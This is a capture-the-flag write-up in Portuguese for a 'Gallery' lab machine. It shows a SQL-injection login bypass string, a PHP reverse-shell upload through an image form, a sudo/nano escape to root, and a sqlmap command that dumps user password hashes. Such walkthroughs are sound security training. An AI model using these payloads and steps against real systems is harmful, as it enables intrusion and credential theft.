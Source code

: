 ![image](https://github.com/user-attachments/assets/c758ca99-080b-49dc-a34a-9676fabf3320)# _**Gallery CTF**_
![](gal.jpg)

## _**Enumeração**_
**DISCLAIMER**: _Você encontrará a maioria das respostas ao longo das imagens e textos deste write-up_  
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A [ip_address]
> ```
![](scan_nmap.jpg)

Acessando o site, temos uma página de login
Tentando alguns nomes e senhas comuns, não conseguimos acesso  
Na tentativa de ```' || '1'='1';-- -``` em _username_ e também em _password_, temos login  
Agora que temos login, vamos tentar descobrir diretórios com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address]:8080 -w ../seclists/Discovery/Web-Content/common.txt --status-codes-blacklist 200
> ```
![](scan_gobuster.jpg)

Vasculhando os diretórios e a própria página, encontramos um lugar que aceita upload de imagens  
Vamos tentar realizar upload de um _reverse shel_ em PHP  
Clicando na imagem, obtemos um _reverse shell_ com sucesso!  

![](reverse.jpg)

## _**Ganhando acesso**_
Transferindo e executando <mark>LinPeas</mark> na máquina alvo, temos o seguinte resultado interessante  

![](lin_result.jpg)

Encontramos uma senha  
Temos 2 usuários além de _root_, mas iremos tentar no principal  
Digitamos o comando ```su mike``` e inserimos a senha quando pedido  
Sucesso! Agora somos o usuário **mike** e temos a sua senha  

## _**Escalando privilégios**_
Digitando o comando ```sudo -l```, temos o seguinte  

![](sudo_l.jpg)

Verificando edições, não podemos  
Verificando seu conteúdo, é possível observar que temos a leitura de um arquivo através de ```nano```  
Investigando um pouco em GFTOBins, temos que ao digitar os seguintes comandos, podemos obter _root_  
> ```bash
> ctrl + z
> stty raw -echo;fg
> reset
> xterm
> export TERM=xterm
> sudo /bin/bash /opt/rootkit.sh (read)
> ctrl + r
> ctrl + x
> reset; sh 1>&0 2>&0
> ```
![](root.jpg)

Agora, basta ir atrás das flags  
Quanto ao CMS, pesquisando, foi identificado no início da página de login  
Este CMS possui a [seguinte CVE](https://www.exploit-db.com/exploits/50214)  
Para a _hash_ do usuário, foi necessário pesquisar como executar, não estava conseguindo seguindo as instruções  
Investigando onde era possível encontrar o _hash_, foi possível com este comando
> ```bash
> sqlmap -r test.req -D gallery_db -T users -C id,username,firstname,password --dump
> ```

![](hash_found.jpg)
